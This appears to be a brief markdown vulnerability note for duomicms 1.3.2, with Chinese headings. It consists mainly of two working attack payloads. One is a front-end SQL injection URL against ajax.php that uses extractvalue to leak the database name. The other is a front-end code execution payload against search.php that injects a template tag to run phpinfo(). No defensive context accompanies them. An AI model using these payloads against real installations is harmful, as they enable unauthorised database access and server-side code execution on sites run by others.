


### duomicms

```
版本信息：1.3.2
```

#### 前台sql注入

```
/duomiphp/ajax.php?action=addfav&id=1&uid=1 and extractvalue(1,concat_ws(0x3A,0x3A,database()))
```



#### 前台代码执行

```
/search.php?searchword={if:phpinfo()}phpinfo(){end
```



